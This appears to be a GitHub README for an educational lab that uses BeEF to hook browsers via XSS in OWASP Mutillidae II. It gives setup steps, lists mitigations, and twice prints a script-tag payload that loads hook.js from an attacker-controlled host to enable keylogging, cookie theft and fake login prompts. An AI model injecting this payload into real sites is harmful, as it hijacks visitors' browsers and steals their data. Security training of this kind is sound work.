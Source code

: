 # 🔥 BeEF + Mutillidae XSS Demo

This project demonstrates how to use **BeEF** to hook a browser via a stored/reflected XSS vulnerability in **OWASP Mutillidae II**, and simulate client-side exploitation for educational and SOC analysis purposes.

> ⚠️ This is for **educational use only** in a legal lab environment.

---

## 🧪 Tools Used
- **Kali Linux** with BeEF (`beef-xss`)
- **OWASP Mutillidae II** vulnerable web app
- **Python HTTP Server** (to serve hook files or malicious pages)

---

## 🧷 Scenario

1. Launch BeEF (`sudo beef-xss`)
2. Navigate to Mutillidae > `XSS > Stored XSS`
3. Inject BeEF hook:
   ```html
   <script src="http://<KALI-IP>:3000/hook.js"></script>
   ```
4. Victim browses the vulnerable page → gets hooked by BeEF.
5. Attacker now executes modules (keylogger, port scanner, webcam test...).

---

## 📂 File Structure
- `attack_files/xss_mutillidae_payload.txt`: BeEF XSS injection example
- `report/incident_report.md`: SOC-style incident analysis
- `screenshots/`: Evidence of attack steps

---

## 📸 Screenshots

![Hooked Victim](BeEF-Mutillidae-XSS-Demo/screenshots/hooked.png)
![Mutillidae Home Page](BeEF-Mutillidae-XSS-Demo/screenshots/commands.png)


----

## 📑 Sample Payload (`xss_mutillidae_payload.txt`)
```html
<script src="http://<KALI-IP>:3000/hook.js"></script>
```

> Injected into a form or URL parameter in Mutillidae

---

## 📖 Report Summary
- Target: Mutillidae (XSS > Stored)
- Hooked Victim Browser via malicious JavaScript
- Demonstrated:
  - Internal network scan
  - Cookie stealing simulation
  - Fake login prompt
- Analysis in `report/incident_report.md`

---

## 🛡️ Mitigation
- Content Security Policy (CSP)
- Input sanitization
- Disabling inline scripts

---

## 🧑‍💻 Author
Roei Ben Simon  
[GitHub » Roeibs100](https://github.com/Roeibs100)
